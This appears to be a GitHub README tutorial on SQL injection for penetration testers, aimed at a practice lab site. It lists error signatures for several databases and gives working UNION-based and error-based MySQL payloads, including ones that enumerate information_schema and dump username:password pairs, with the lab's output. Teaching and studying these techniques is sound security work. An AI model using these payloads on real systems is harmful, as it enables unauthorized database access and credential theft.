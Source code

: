 # SQL Injections for Pentesters

by: @Anake    (Anakein)
email: anakein [@] protonmail [dot] ch

Hello my friends, this is my repo about sql injections. 

References:

 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 
 http://www.securityidiots.com/Web-Pentest/SQL-Injection
 
 
LAB: http://leettime.net/sqlninja.com/index.php


```
select * from table_name where id=23

select * from table_name where id='23'

select * from table_name where id="23"

select * from table_name where id=(23)

select * from table_name where id=('23')

select * from table_name where id=("23")


+--------+-----------------------------------+
|Comment	|	      Name           | 
+--------+-----------------------------------+
|--	 :	MySQL Linux Style            |
|--+     :	MySQL Windows Style          |
|#	 :	Hash (URL encode while use)  |
|--+-	 :	SQL Comment                  |
|;%00	 :	Null Byte                    |
|`       :      Backtick                     |
+--------+-----------------------------------+

```

#### Information IMPORTANT
Remember whenever the input is enclosed with single quotes only single quote with input will create error.
When input is enlcosed by double quotes a double qoute with input will give error.
When Input is not enlcosed with anything single quote and double quote both will give error.

First of all we can try our input with some injections to see if we get any error. Error may always not be real SQL error it may be some times generic error or change in output of the application. All you have to do it recognise it. 

![MySQL](https://img.shields.io/badge/1-MySQL%20Error%20Style-critical)

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1`

![mssql](https://img.shields.io/badge/2-MSSQL%20ASPX%20Error-critical)

`Server Error in '/' Application`

![MSAcess](https://img.shields.io/badge/3-MSAccess%20(Apache%20PHP)-critical)

`Fatal error: Uncaught exception 'com_exception' with message Source: Microsoft JET Database Engine`

![MSAccessIISaSp](https://img.shields.io/badge/4-MSAccesss%20(IIS%20ASP)-critical)

`Microsoft JET Database Engine error '80040e14'`

![oracle](https://img.shields.io/badge/5-Oracle%20Error-critical)

`ORA-00933: SQL command not properly ended`

![ORA](https://img.shields.io/badge/6-ODBC%20Error-critical)

`Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)`

![postgree](https://img.shields.io/badge/7-PostgreSQL%20Error-critical)

`PSQLException: ERROR: unterminated quoted string at or near "'" Position: 1
or
Query failed: ERROR: syntax error at or near
"'" at character 56 in /www/site/test.php on line 121.`

![mssqlserver](https://img.shields.io/badge/8-MS%20SQL%20Server-critical)

`Microsoft SQL Native Client error %u201880040e14%u2019
Unclosed quotation mark after the character string`

Now i will show you different tests to create errors and confirm which query is working inside the Application while using the same example "http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1" url, You can perform these tests and check the reactions of the application:

```
+---------------------------+-------------------------------------------------------------------------------------+
|Input	                    | 	Reaction if its Intiger Based Injection                                           |
+---------------------------+-------------------------------------------------------------------------------------+
|23'                        :   It should cause error or no output                                                |
|"	                    :	Should cause error or no output                                                   |
|23 or 1=1	            :	Any Output should come but may be different output                                |
|23 and 1=1	            :	Same output should come                                                           |
|23 and false	            :	No output                                                                         |
|23 and true	            :	Same Output                                                                       |
|23--+	                    :	Same output. I used --+ to comment, later i ll show how to know which one to use  |
|23 and true--+	            :	Same output                                                                       |
+-----------------------------------------------------------------------------------------------------------------+
```


## MYSQL Union Based

### Extract database with information_schema

First you need to know the number of columns, you can use `order by`

```sql
order by 1
order by 2
order by 3
...
order by XXX
```

OR

`1' order by 1,2,3%23`



Then the following codes will extract the databases'name, tables'name, columns'name.

#### Extract DATABASE NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3+fRoM+information_schema.schemata%23`

OUTPUT:     leettime_761wHole

#### Extract TABLES NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C),3+fRoM+information_schema.tables+wHeRe+table_schema=database()%23`

OUTPUT:     |testtable1|,|userlogs|,|users|

#### Extract COLUMNS NAME

>>> REMEMBER USE SINGLE QUOTE  

```

In mysql there is a particularity

String inside strings duplicate quotes!

' blablabla ''string'' '

String >> string >> string

'blablabla '' blablabla '''' string '''' '' '

This used with frequency in mysql links.

```


`1' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7C),3+fRoM+information_schema.columns+wHeRe+table_name='users'%23`

OUTPUT:    |id|,|username|,|password|,|user_type|,|sec_code|  

#### EXTRACT DATA

`1' union Select all 1,group_concat(0x7c,username,0x3a,password,0x7c),3 from users%23`

OUTPUT: |injector:khan|,|decompiler:hacktract|,|devilhunte:dante|,|Zen:sec-idiots|,|Zenodermus:security-i|,|grayhat:hacker|,|khan:haxor|,|admin:sadmin|

OR you can add limit using the `limit 0,1`, `limit 1,1`, `limit 2,1`...

`1' union Select 1,concat(username,0x3a,password),3 from users limit 2,1%23`

OUTPUT: decompiler:hacktract

## MYSQL Error Based

find errors, and interpreter. For example:

```
1'   out: 1' limit 1'
1/   out: error
1*   out: error
1--  out: no error  (Booowww)
1-- -  out: no error

Continue

1 and true;-- -    out: no error [Normal page]
1 and false;-- -   out: Invalid Input parameter [Error page]
```

##### Finding out the number of columns

```
1 order by 7-- -   out: error (Unknown column '7' in 'order clause')
1 order by 5-- -   out: no error  (us have 5 columns)

```

##### First lets try Union Based Injection.

`1 union select 1,2,3,4,database() -- -`   #No erro (loadpage normally)

Remember to invalidate the first input as i did by making it `-1`

`-1 union select 1,2,3,4,database() -- -`

OUTPUT: Username is : 2

2 is reference to the injectable field

`-1 union select 1,database(),3,4,5 -- -`

OUTPUT: Username is : leettime_761wHole







### UpdateXML function

`AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)--`

OUTPUT: Error While Selection process : XPATH syntax error: '~5.6.44-cll-lve~'






Credits: @zc00l
